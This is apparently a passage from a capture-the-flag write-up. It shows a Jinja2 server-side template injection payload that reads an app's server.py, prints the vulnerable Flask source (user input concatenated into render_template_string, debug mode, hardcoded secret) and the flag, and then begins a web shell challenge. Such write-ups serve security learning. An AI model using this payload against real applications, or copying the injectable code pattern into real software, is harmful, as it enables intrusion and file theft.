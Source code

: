 we can use this payload to read the app code.
```bash
{{ ''.__class__.__mro__[2].__subclasses__()[40]('server.py').read() }}
```

and it returns :
```python
 #!/usr/bin/env python

import flask
from flask import request, render_template_string


app = flask.Flask(__name__)
app.config.from_object(__name__)
app.secret_key = 'JHDCTF{server_side_template_injection_unmasked}'


@app.route('/', methods = ["GET", "POST"])
def index(): 

	mask = "... you have not yet taken off your mask!"

	if request.method == "POST":
		mask = request.form['mask']
	
	return flask.render_template_string(  ''' {%  extends "layout.html"  %}
	{%  block body  %} ''' + mask + ''' {%  endblock %} ''' )

if ( __name__ == "__main__" ):

	app.run( debug=True, host='0.0.0.0' ) 
```

    Flag = JHDCTF{server_side_template_injection_unmasked}


## &nbsp;
## 10 Character Web Shell
```
100
Only 10 char--

Connect here: http://jh2i.com:50001.
```

it's a webshell that do __exec__ to _c_ parameter.
check using ls -lah to see directory listing
![dirlist](./pics/dirlis.png)
